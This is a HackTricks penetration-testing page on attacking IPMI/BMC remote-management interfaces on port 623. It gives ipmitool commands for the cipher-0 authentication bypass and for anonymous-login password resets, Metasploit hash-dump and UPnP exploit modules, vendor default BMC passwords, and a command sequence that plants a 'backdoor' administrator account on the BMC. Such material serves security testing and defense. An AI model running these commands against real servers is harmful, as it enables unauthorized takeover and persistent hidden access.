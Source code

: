 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** offers a standardized approach for remote management and monitoring of computer systems, independent of the operating system or power state. This technology allows system administrators to manage systems remotely, even when they're off or unresponsive, and is especially useful for:

- Pre-OS boot configurations
- Power-off management
- Recovery from system failures

IPMI is capable of monitoring temperatures, voltages, fan speeds, and power supplies, alongside providing inventory information, reviewing hardware logs, and sending alerts via SNMP. Essential for its operation are a power source and a LAN connection.

Since its introduction by Intel in 1998, IPMI has been supported by numerous vendors, enhancing remote management capabilities, especially with version 2.0's support for serial over LAN. Key components include:

- **Baseboard Management Controller (BMC):** The main micro-controller for IPMI operations.
- **Communication Buses and Interfaces:** For internal and external communication, including ICMB, IPMB, and various interfaces for local and network connections.
- **IPMI Memory:** For storing logs and data.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (It's usually on UDP but it could also be running on TCP)

## Enumeration

### Discovery

```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```

You can **identify** the **version** using:

```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```

### IPMI Vulnerabilities

In the realm of IPMI 2.0, a significant security flaw was uncovered by Dan Farmer, exposing a vulnerability through **cipher type 0**. This vulnerability, documented in detail at [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html), enables unauthorized access with any password provided a valid user is targeted. This weakness was found across various BMCs from manufacturers like HP, Dell, and Supermicro, suggesting a widespread issue within all IPMI 2.0 implementations.

### **IPMI Authentication Bypass via Cipher 0**

To detect this flaw, the following Metasploit auxiliary scanner can be employed:

```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Exploitation of this flaw is achievable with `ipmitool`, as demonstrated below, allowing for the listing and modification of user passwords:

```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```

### **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval**

This vulnerability enables retrieval of salted hashed passwords (MD5 and SHA1) for any existing username. To test this vulnerability, Metasploit offers a module:

```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### **IPMI Anonymous Authentication**

A default configuration in many BMCs allows "anonymous" access, characterized by null username and password strings. This configuration can be exploited to reset passwords of named user accounts using `ipmitool`:

```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```

### **Supermicro IPMI Clear-text Passwords**

A critical design choice in IPMI 2.0 necessitates the storage of clear-text passwords within BMCs for authentication purposes. Supermicro's storage of these passwords in locations such as `/nv/PSBlock` or `/nv/PSStore` raises significant security concerns:

```bash
cat /nv/PSBlock
```

### **Supermicro IPMI UPnP Vulnerability**

Supermicro's inclusion of a UPnP SSDP listener in its IPMI firmware, particularly on UDP port 1900, introduces a severe security risk. Vulnerabilities in the Intel SDK for UPnP Devices version 1.3.1, as detailed by [Rapid7's disclosure](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), allow for root access to the BMC:

```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```


### Brute Force

**HP randomizes the default password** for its **Integrated Lights Out (iLO)** product during manufacture. This practice contrasts with other manufacturers, who tend to use **static default credentials**. A summary of default usernames and passwords for various products is provided as follows:

- **HP Integrated Lights Out (iLO)** uses a **factory randomized 8-character string** as its default password, showcasing a higher security level.
- Products like **Dell's iDRAC, IBM's IMM**, and **Fujitsu's Integrated Remote Management Controller** use easily guessable passwords such as "calvin", "PASSW0RD" (with a zero), and "admin" respectively.
- Similarly, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, and **ASUS iKVM BMC** also use simple default credentials, with "ADMIN", "changeme", and "admin" serving as their passwords.


## Accessing the Host via BMC

Administrative access to the Baseboard Management Controller (BMC) opens various pathways for accessing the host's operating system. A straightforward approach involves exploiting the BMC's Keyboard, Video, Mouse (KVM) functionality. This can be done by either rebooting the host to a root shell via GRUB (using `init=/bin/sh`) or booting from a virtual CD-ROM set as a rescue disk. Such methods allow for direct manipulation of the host's disk, including the insertion of backdoors, data extraction, or any necessary actions for a security assessment. However, this requires rebooting the host, which is a significant drawback. Without rebooting, accessing the running host is more complex and varies with the host's configuration. If the host's physical or serial console remains logged in, it can easily be taken over through the BMC's KVM or serial-over-LAN (sol) functionalities via `ipmitool`. Exploring the exploitation of shared hardware resources, like the i2c bus and Super I/O chip, is an area that demands further investigation.

## Introducing Backdoors into BMC from the Host

Upon compromising a host equipped with a BMC, the **local BMC interface can be leveraged to insert a backdoor user account**, creating a lasting presence on the server. This attack necessitates the presence of **`ipmitool`** on the compromised host and the activation of BMC driver support. The following commands illustrate how a new user account can be injected into the BMC using the host's local interface, which bypasses the need for authentication. This technique is applicable to a wide range of operating systems including Linux, Windows, BSD, and even DOS.

```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```


## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
